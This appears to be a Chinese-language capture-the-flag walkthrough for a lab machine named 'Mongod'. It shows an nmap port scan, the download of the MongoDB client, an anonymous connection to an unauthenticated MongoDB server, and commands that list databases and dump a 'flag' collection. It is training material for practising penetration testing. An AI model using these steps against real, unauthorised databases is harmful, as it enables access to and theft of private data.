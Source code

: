 # Mongod

## 前言

从Mongod的名字可以知道今日靶机和数据库有关。具体是什么数据库呢？没错就是MongoDB数据库，这是一个面向文档的 [No SQL](https://www.runoob.com/mongodb/nosql.html) 数据库。稍后我们会再提及。

> 靶机上运行着一个MongoDB数据库，存在未授权访问漏洞。即允许用户在没有账号、密码的情况下匿名地登录数据库。

接下来开始正式的渗透过程。

## 渗透

首先，我们例行公事般地扫描一下靶机开放的端口、服务等。祭出我们的 Nmap 神器，本次实验主要用到以下几个选项：

```bash
-p- ：扫描0-65535 间的TCP端口
-sV ：扫描特定端口上运行服务的版本信息
--min-rate ：指明 Nmap 每秒应发送的最小数据包数，该数越大，扫描速度越快
```

使用以下命令扫描目标：

```bash
sudo nmap -p- --min-rate=1000 -sV {target_ip}
```

可以发现靶机上运行着MongoDB服务，下面再简单说说 MongoDB。

![1](image-20230415192524848.png)

### MongoDB 简介

前文提到，MongoDB 是一个面向文档的非关系型数据库。MongoDB 不像传统的使用表和行的关系型数据库，其使用集合以及文档。

MongoDB 数据库由多个集合组成，每个集合又可包含多个文档：

![1.png](image-20230415191225105.png)

而每个文档又由一个个的键值对组成，键值对是 MongoDB 数据库数据的基本单元。

### 连接 MongoDB 数据库服务器

为连接到远程的 MongoDB 服务器，我们需要安装 `mongodb` 工具。

在基于 Debian 的linux发行版系统，可以使用以下命令安装 `mongodb`：

1. 利用 curl 下载压缩包

```
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
```

2. 利用 tar 解压

```
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

3. 进入 mongodb 的 bin 目录

```
cd mongodb-linux-x86_64-3.4.7/bin
```

4. 执行mongo，匿名连接 MongoDB 服务器

```
./mongo mongodb://{target_IP}:27017
```

如下图，成功连接到 MongoDB 服务器：



使用如下命令列出 MongoDB 中的所有数据库：

```
show dbs;
```



之后可以使用use 命令选择某个数据库，并查询该数据库里的信息：

```
use sensitive_information;
```

用 show 命令列出上述数据库下的所有集合：

```
show collections;
```

发现有一个名为 `flag` 的集合，我们可以使用如下命令输出该集合中的内容：

```
db.flag.find().pretty();
db.flag.find() 也可以，加上 pretty() 更美观
```

![image-20230415193113792](image-20230415193113792.png)



